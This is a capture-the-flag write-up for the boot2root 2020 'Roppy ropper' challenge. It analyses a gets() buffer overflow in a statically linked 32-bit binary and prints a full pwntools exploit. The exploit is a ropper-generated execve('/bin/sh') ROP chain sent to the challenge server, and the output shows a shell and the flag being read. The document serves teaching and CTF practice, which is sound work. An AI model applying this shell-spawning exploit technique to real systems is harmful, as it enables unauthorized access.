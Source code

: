 # boot2root 2020

## Roppy ropper

> 467
>
> I love ropes do you?
>
> `nc 35.238.225.156 1004`
>
> Author: TheBadGuy
> 
> [lsass](lsass)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Static ROP binary, parts included, no assembly required.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE or Canary (where is matters, see below); easy easy ROP.


### Decompile with Ghidra

```c
void list_me_like_crazy(void)
{
  char *pcVar1;
  char local_11 [9];
  
  puts("(list_me_like_crazy)");
  puts("Is this lsass I dont understand :)");
  puts("Give me your arguments:");
  gets(local_11);
  pcVar1 = strchr(local_11,0x2f);
  if (pcVar1 == (char *)0x0) {
    run_command(local_11);
  }
  else {
    puts("Hey sorry that is not allowed");
  }
  return;
}
```

When loading up in Ghidra the first thing you'll notice is how long it takes Ghidra to analyze the binary because it is statically linked:

```
lsass: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
BuildID[sha1]=29ace8e7875f5edabe4ce83e83ec1aebd4cfa48c, for GNU/Linux 3.2.0, not stripped
```

Like [Welcome to Pwn](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/welcome_to_pwn), `gets` is the vulnerability, but since we have a binary full of gadgets using something like `ropper` (hint in the title) is all we need:

```
ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
```

The output of that prefixed with `0x11` bytes of garbage is all we need to get a shell (`local_11` is `0x11` bytes from the return address on the stack).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lsass')

if args.REMOTE:
        p = remote('35.238.225.156', 1004)
else:
        p = process(binary.path)

# ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
IMAGE_BASE_0 = 0x08048000 # da2732480d49a078e666802ee2edcd948700eacaaa48129430ea1ff6d5e8e5c6
rebase_0 = lambda x : p32(x + IMAGE_BASE_0)

rop  = b''
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a064)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += p32(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0001c081) # 0x08064081: pop ecx; add al, 0xf6; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004fa95) # 0x08097a95: pop edx; xor eax, eax; pop edi; ret;
rop += rebase_0(0x0009a068)
rop += p32(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret;
rop += p32(0x0000000b)
rop += rebase_0(0x0001aa7e) # 0x08062a7e: xchg eax, ebp; ret;
rop += rebase_0(0x000319a0) # 0x080799a0: int 0x80; ret;

payload  = 0x11 * b'A'
payload += rop

p.sendlineafter('arguments:\n',payload)
p.interactive()
```

As stated in the Analysis section, `0x11` bytes, then ROPchain from `ropper`.

> The above is not 100% `ropper` output, I changed `p` to `p32`, added `b` to strings because I use `python3`, etc... nothing difficult to understand.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
